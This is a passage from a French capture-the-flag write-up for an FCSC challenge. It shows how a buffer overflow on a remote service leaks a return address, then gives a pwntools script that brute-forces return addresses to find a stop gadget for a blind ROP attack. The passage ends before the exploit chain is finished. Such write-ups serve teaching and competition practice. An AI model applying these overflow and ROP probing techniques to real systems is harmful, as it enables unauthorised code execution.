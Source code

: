 ```
>>> Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
@Bye!
$ python -c "print 'A'*40" | nc challenges2.france-cybersecurity-challenge.fr 4008
Hello you.
What is your name ?
>>>
```
À partir de 40 caractères envoyés, le programme ne renvoie plus rien.
On remarque également que lorsqu'on lui a envoyé 39 caractères, il a répondu `Thanks AAA[...]AAA @Bye!`, or ce `@` n'était pas présent les autres fois.
On envoie le tout dans `xxd` afin de comprendre un peu mieux ce que l'on a reçu :
```
$ python -c "print 'A'*39" | nc challenges2.france-cybersecurity-challenge.fr 4008 | xxd
00000000: 4865 6c6c 6f20 796f 752e 0a57 6861 7420  Hello you..What
00000010: 6973 2079 6f75 7220 6e61 6d65 203f 0a3e  is your name ?.>
00000020: 3e3e 2054 6861 6e6b 7320 4141 4141 4141  >> Thanks AAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 410a cc06 4042 7965 210a                 A...@Bye!.
$ python -c "print 'A'*39" | nc challenges2.france-cybersecurity-challenge.fr 4008 | xxd
00000000: 4865 6c6c 6f20 796f 752e 0a57 6861 7420  Hello you..What
00000010: 6973 2079 6f75 7220 6e61 6d65 203f 0a3e  is your name ?.>
00000020: 3e3e 2054 6861 6e6b 7320 4141 4141 4141  >> Thanks AAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 410a cc06 4042 7965 210a                 A...@Bye!.
```
Nous n'avons pas reçu qu'un seul `@` mais bien 3 bytes : `\xcc\x06\x40` ; qui ne changent pas, ne sont pas assez long pour être un canary et qui ressemblent étrangement à l'adresse d'une instruction/fonction dans un programme x86-64bits compilé sans PIE (Position Independent Executable), une protection qui randomise l'adresse à laquelle le binaire va être mappé en mémoire et donc les adresses des instructions et des fonctions de ce programme empêchant ainsi d'utiliser une ropchain sans avoir de leak.
En supposant donc que c'est un programme x86-64 compilé sans PIE et que les 3 bytes obtenus correspondent à la sauvegarde de RIP, on peut commencer à exploiter cette blind ROP.

## Premier essai : échec
J'ai commencé par chercher un stop gadget situé aux alentours de la sauvegarde de RIP, c'est-à-dire un gadget qui renvoie autre chose que ce qui est prévu initialement par le programme :
```py
from pwn import *

for rip in range(0x4006cc-0x100, 0x4006cc+0x100):
    print(".", end="", flush=True)
    r = remote("challenges2.france-cybersecurity-challenge.fr", 4008)

    r.recvuntil(">>> ")
    r.sendline(b"A"*40 + p64(rip))
    try:
        res = r.recvall(timeout=2)
    except:
        print(hex(rip))
        break
    if res != b"":
        print("\n" + hex(rip), res)
```
Après plusieurs dizaines de secondes, on trouve un certain nombre de gadgets mais dont beaucoup ne renvoie que `Thanks AAA[...]AAA` puis l'adresse du gadget.
J'ai donc choisi ce gadget : `0x400668 b'Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAh\x06@>>> '`
Maintenant que l'on a notre stop gadget on peut commencer à chercher des gadgets intéressants, comme un `pop rdi; ret` par exemple, afin de controller le premier argument de la fonction appelée.